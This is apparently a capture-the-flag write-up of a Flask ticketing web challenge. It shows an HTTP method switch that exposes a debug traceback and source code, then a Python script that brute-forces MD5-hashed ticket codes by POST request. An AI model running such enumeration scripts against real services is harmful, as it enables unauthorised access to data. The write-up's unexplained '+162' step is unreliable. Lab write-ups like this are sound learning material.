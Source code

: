- On the website we find a simple "ticketing" system.

- it asks for `name` and a `message`. once the `submit` button is pressed, there's a modification to the URL

```
http://ip/?name=asda&content=dsa
```

- By inspecting the source code of the page, we're able to identify a MD5 hash.

```
<!-- Our first bug was: d63af914bd1b6210c358e145d61a8abc. Please fix now! -->
```

- After being cracked, `d63af914bd1b6210c358e145d61a8abc` translates to `1628168161` in decimal.

- And here my brain decided to take a pause. I was stuck trying to isnert this number or hash in every way possible in the message and name forms, hoping that I can access that ticket and see the body.

- However, after a while, I decided to change the method used in the request using burpsuite

```
GET /?name=abc&content=de HTTP/1.1
```

to 

```
POST /?name=abc&content=de HTTP/1.1
```

- This has caused the internal server to throw an exception

```
# werkzeug.exceptions.BadRequestKeyError

werkzeug.exceptions.BadRequestKeyError: 400 Bad Request: The browser (or proxy) sent a request that this server could not understand. KeyError: 'code'

## Traceback
```

- By taking a look in the `Traceback`, I found an interesting entry

```
File "/home/ctf/app.py", line _16_, in `index`
```

```
@app.route('/', methods=['GET', 'POST', 'PUT'])
    def index():
        if request.method == 'POST':
            code = request.form['code']
            if len(code) < 0:
                return "You should provide the code!"
                
            with sqlite3.connect("database.db") as con:
                cur = con.cursor()
                rows = cur.execute("SELECT name, content FROM tickets WHERE code = ?", (code,)).fetchall()
```

- From this source code, I assumed I must use the `POST`method to send the `code`. Which I assumed was  the number I found in the source code.

- I wrote a python script to do this

```
#!/usr/bin/python
import requests
import hashlib

target = "http://IP"

code = 1628168161

while True:
    md5_code = hashlib.md5(str(code).encode()).hexdigest()
    req = requests.post(target, data={"code": md5_code})
    answer = req.text

    if("ctf" in answer):
        print(answer)
        break

    code += 1
```

- And ... it doesn't work as expected. But it does something.

```
<div class="row">
    <hr>
	    <p>Name: Nice one</p>
	    <p>Message: ctf{Try harder!}</p>
    <hr>
</div>
```

- That's what I found in the answer. Unfortunately, I had no idea what to do now. I assumed it had something to do with the value used, but I didn't knew what.

- So I was stuck here for a while. 

- Then, I found another writeup in which `162` was added to the initial value, `1628168161`. Why? No idea. But it works.

- If we modify this line 

```
code = 1628168161
```

to 

```
code = 1628168161 + 162
```

```
<div class="row">
    <hr>
        <p>Name: Nice one</p>
        <p>Message: ctf{{redacted}}</p>
    <hr>
</div>
```

- it works and i'm confused. to be updated once i find the explanation :) 
